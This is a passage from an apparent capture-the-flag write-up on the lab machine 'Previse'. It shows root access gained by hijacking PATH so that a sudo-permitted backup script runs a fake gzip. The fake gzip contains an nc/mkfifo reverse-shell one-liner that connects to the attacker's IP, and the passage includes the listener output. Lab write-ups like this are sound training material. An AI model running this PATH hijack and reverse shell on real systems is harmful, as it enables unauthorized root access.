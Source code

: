 Since this file is prevented from modification (at least from `m4lwhere` account), started looking for ways to abuse this `sudo` entry.

Checked for gzip [GTFOBins](https://gtfobins.github.io/gtfobins/gzip/) but nothing interesting was found. The only possibility would be a path hijack, once gzip is called without a path in script, so we can try to abuse that :smile:

The following steps were executed, to be able to get root access to this box:

- created a temp folder and inside it, a bash file called gzip

```bash
m4lwhere@previse:~$ cd $(mktmp -d)
m4lwhere@previse:/tmp/tmp.jXV0om034O$ vi gzip
m4lwhere@previse:/tmp/tmp.jXV0om034O$ cat gzip
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.39 4443 >/tmp/f
```

- modified PATH appending the temp directory used

```bash
m4lwhere@previse:/tmp/tmp.jXV0om034O$ export PATH=/tmp/tmp.jXV0om034O:$PATH
```

- ran sudo command and obtained a reverse shell

```bash
m4lwhere@previse:/tmp/tmp.jXV0om034O$ sudo /opt/scripts/access_backup.sh
```

```bash
$ nc -lnvp 4443                                                                                                                                              1 ⨯
listening on [any] 4443 ...
connect to [10.10.16.39] from (UNKNOWN) [10.10.11.104] 52210
# cd /root
# cat root.txt
<redacted>
```
